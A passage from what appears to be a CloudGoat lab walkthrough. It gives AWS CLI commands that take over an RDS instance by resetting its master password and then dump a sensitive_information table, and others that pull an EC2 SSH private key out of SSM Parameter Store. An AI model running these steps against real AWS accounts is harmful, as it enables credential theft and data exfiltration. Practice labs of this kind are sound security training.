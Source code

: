 ```bash
    --db-subnet-group-name <SUBNET_GROUP_NAME> \
    --publicly-accessible \
    --vpc-security-group-ids <SECURITY_GROUP_NAME> \
    --profile calrissian

# Now have an RDS instance that we control, reset the Master User Password for the database.
aws rds modify-db-instance \
    --db-instance-identifier secrets-instance \
    --master-user-password cloudgoat \
    --profile calrissian

# retrieve the information about the new RDS instance, connect to the database and extract secrets.
aws rds describe-db-instances \
    --query "DBInstances[*].[DBInstanceIdentifier,Engine,DBName,Endpoint,MasterUsername]" \
    --profile calrissian
# got the rds address


# to connect to the RDS instance
# can use any PostgreSQL client to connect to the database and extract the secrets,
# In this case, we are using `psql`, a command line PostgreSQL client -
sudo apt install postgresql-client
psql -h <INSTANCE-PUBLIC-DNS-NAME> -p 5432 -d securedb -U cgadmin

# connected to the database, use PostgreSQL commands to extract the secrets.
# securedb ->
# securedb -> \dt
# securedb -> select * from sensitive_information;
```

---

#### Exploitation Route - 2

![scenario6-2](https://i.imgur.com/XOa1z69.png)

> The above enumeration step was tricky and time consuming for me because the [enumerate-iam] script didn't check for `SSM:DescribeParameters` permission.
> AWS Systems Manager Parameter Store
> provides secure, hierarchical storage for configuration data management and secrets management.
> can store data such as passwords, database strings, EC2 instance IDs, EC2 SSH Key Pairs and license codes as parameter values.



```bash

# use the IAM User "Solo" credentials and exploit the AWS account in a different way.

# From the [enumerate-iam] script
# the user has `SSM:DescribeParameters` permission.
# allows to list the parameters stored in AWS Systems Manager Parameter Store.
# By design, most of the parameters stored tend to be of sensitive nature.

#  list all the parameters in the Parameter Store of the AWS account.
aws ssm describe-parameters --profile $SRC_PROFILE

# the Parameter Store has an EC2 SSH Key Pair.  
# download the SSH private key
aws ssm get-parameter \
    --name cg-ec2-private-key-cgidetofos97ig \
    --query "Parameter.Value" \
    --output text \
    --profile $SRC_PROFILE | tee private-key

```